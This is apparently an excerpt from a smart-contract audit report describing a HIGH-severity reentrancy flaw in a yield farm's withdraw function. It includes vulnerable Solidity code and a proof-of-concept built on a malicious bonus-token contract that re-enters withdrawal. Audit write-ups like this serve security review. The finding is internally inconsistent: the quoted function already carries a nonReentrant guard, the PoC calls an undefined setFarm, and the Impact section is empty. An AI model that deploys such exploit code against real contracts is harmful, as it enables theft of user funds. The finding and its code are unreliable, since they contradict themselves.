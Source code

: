 ## 5. Reentrancy Vulnerability in Withdraw Function
### Severity: HIGH

Description:
The `withdraw` function makes external calls to transfer bonus tokens before updating user state, violating the checks-effects-interactions pattern.

Vulnerable Code:

```solidity
function withdraw(uint256 _pid, uint256 _amount) external nonReentrant {
    // ...
    // External call before state update - VULNERABLE
    bonus.bonusToken.safeTransfer(msg.sender, bonusPending);
    
    // State update after external call
    user.amount -= _amount;
    user.rewardDebt = (user.amount * pool.accRewardPerShare) / 1e12;
    // ...
}
```
### Proof of Concept:

```solidity
// Malicious bonus token contract
contract MaliciousBonusToken is ERC20 {
    MultiTokenYieldFarm public farm;
    
    function transfer(address to, uint256 amount) public override returns (bool) {
        // Reenter the farm contract
        if (farm.userInfo(0, msg.sender).amount > 0) {
            farm.withdraw(0, 1); // Reentrant call
        }
        return super.transfer(to, amount);
    }
}

function testReentrancyAttack() public {
    // Setup malicious bonus token
    MaliciousBonusToken maliciousToken = new MaliciousBonusToken();
    maliciousToken.setFarm(address(yieldFarm));
    
    // Set as bonus token for pool
    yieldFarm.setBonusToken(0, maliciousToken, 1e18, block.number + 1000);
    
    // Attacker deposits
    attacker.deposit(100e18);
    
    // Withdraw triggers reentrancy
    yieldFarm.withdraw(0, 50e18); // Reenters and can manipulate state
}
```
### Impact:

